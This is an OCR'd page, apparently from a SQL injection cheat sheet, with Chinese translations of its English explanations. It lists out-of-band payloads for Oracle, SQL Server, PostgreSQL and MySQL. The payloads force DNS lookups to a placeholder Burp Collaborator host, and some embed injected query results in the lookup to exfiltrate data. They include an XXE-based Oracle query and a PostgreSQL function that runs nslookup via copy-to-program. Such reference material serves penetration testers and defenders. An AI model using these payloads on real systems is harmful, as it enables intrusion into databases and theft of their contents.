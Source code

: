 


DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
您可以使数据库对外部域执行DNS查找。为此，您需要使用Burp Collaborator生成一个将用于攻击的唯一Burp Collaborator子域，然后轮询Collaborator服务器以确认发生了DNS查找。

Oracle	
(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
（XXE）漏洞触发DNS查找。该漏洞已被修补，但存在许多未修补的Oracle安装：

SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
The following technique works on fully patched Oracle installations, but requires elevated privileges:
以下技术适用于完全修补的Oracle安装，但需要提升的权限：

SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	
The following techniques work on Windows only:
以下技术仅适用于Windows：

LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
您可以使数据库对包含插入查询结果的外部域执行DNS查找。为此，您需要使用Burp Collaborator生成一个用于攻击的唯一Burp Collaborator子域，然后轮询Collaborator服务器以检索任何DNS交互的详细信息，包括泄露的数据。

Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'